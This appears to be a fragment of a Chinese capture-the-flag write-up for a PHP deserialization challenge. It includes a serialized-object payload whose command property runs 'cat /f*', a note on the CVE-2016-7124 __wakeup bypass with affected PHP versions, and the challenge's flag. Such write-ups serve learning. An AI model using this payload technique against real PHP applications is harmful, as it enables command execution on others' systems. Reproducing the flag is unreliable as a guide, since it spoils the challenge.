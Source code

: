 ```php
$a->notes->sth->whoami->cmd = "cat /f*";

echo serialize($a);
```
**cve-2016-7124**

```
__wakeup函数绕过
影响范围：

- PHP5 < 5.6.25
- PHP7 < 7.0.10

正常来说在反序列化过程中，会先调用wakeup()方法再进行unserilize()，但如果序列化字符串中表示对象属性个数的值大于真实的属性个数时，wakeup()的执行会被跳过。
```

**flag**

```
NSSCTF{dea9d35e-edbd-48ee-8daf-7227d0b4fb08}
```


